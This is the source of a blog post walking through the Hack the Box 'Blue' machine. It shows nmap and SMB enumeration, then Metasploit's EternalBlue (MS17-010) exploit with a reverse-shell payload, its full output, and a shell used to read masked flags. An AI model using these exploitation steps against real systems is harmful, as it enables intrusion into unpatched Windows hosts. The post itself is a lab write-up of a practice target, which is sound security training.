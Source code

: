 ```yaml
---
layout: post
title:  "Hack the Box - Blue"
date:   2016-09-14 15:07:19
categories: [walkthrough]
comments: false
---
```

![HTB-Blue](/img/htb/blue/blue/png)

An easy box by ch4p.  Great for getting to know metasploit, or practice if you want to find and modify the exploit from exploit-db.com.

<!--more-->
## Host Discovery

Starting this one off with a light nmap scan to see if there is anything interesting on the standard 1000 ports.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # nmap -sV 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-06 10:42 MST
Nmap scan report for 10.10.10.40
Host is up (0.072s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.60 seconds

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali #
{% endhighlight %}

Sure enough, SMB is open on the system, and based on the name of the box chances are this is an EternalBlue (MS17_010) exploitable box.

## Enumeration/Port Mapping

Lets see if you can login as a guest by attempting to list and then login to a share without specifying a user.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient -L //10.10.10.40
Enter WORKGROUP\root's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient  //10.10.10.40/Users
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Jul 21 00:56:23 2017
  ..                                 DR        0  Fri Jul 21 00:56:23 2017
  Default                           DHR        0  Tue Jul 14 01:07:31 2009
  desktop.ini                       AHS      174  Mon Jul 13 22:54:24 2009
  Public                             DR        0  Tue Apr 12 01:51:29 2011

		8362495 blocks of size 4096. 3842276 blocks available
smb: \>
{% endhighlight %}

Sure enough we can get into the Users share without any real credentials.  On to exploitation!

## Exploitation - MS17-010 EternalBLue

Now, this is the non OSCP friendly way to do it, but chances are this is the way most folks will go ahead and do it.  Using Metasploit and the `exploit/windows/smb/ms17_010_eternalblue)` built in we should be able to get a system shell.

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.17      yes       The listen address (an interface may be specified)
   LPORT     443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >
{% endhighlight %}

Payload all set now we just run:

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.17:443
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.17:443 -> 10.10.10.40:49158) at 2020-02-06 10:21:13 -0700
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

C:\Windows\system32>cd \users\administrator\desktop
cd \users\administrator\desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
ff54************************e717

C:\Users\haris>cd \Users\haris\desktop
cd \Users\haris\desktop

C:\Users\haris\Desktop>type user.txt
type user.txt
4c54***********************deea9
C:\Users\haris\Desktop>
{% endhighlight %}

That is all there is to it.

